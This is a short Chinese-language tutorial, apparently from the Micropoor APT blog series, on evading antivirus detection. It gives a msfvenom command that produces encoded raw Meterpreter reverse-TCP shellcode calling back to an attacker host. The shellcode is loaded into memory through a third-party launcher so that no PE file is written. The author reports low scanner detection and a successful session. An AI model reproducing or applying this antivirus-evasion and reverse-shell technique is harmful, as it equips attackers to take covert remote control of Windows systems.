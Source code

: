 专注APT攻击与防御
https://micropoor.blogspot.com/

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

0x00:以msf为例：监听端口
![](media/e443cf6dc02a20a342291d5c06ccec4f.jpg)

0x001：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c`
![](media/1a912494f05f8ca99edf268225e1a66f.jpg)

0x002:既然是shellcode方式的payload，那么一定需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：
https://github.com/clinicallyinane/shellcode_launcher/

**作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。如果遇到问题，随时可以问我。**
![](media/168b6471db08e03cbca360642e0bcb0c.jpg)

生成的payload大小如下：476字节。还是X32位的payload。
![](media/92ab172a1914132282d7a5bfd14ab31d.jpg)

国内世界杀毒网：
![](media/7749133623a7d6b774e000605ce77a57.jpg)

国际世界杀毒网：
![](media/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。
![](media/be28c1202684af6369757b813f4d9649.jpg)


>   Micropoor
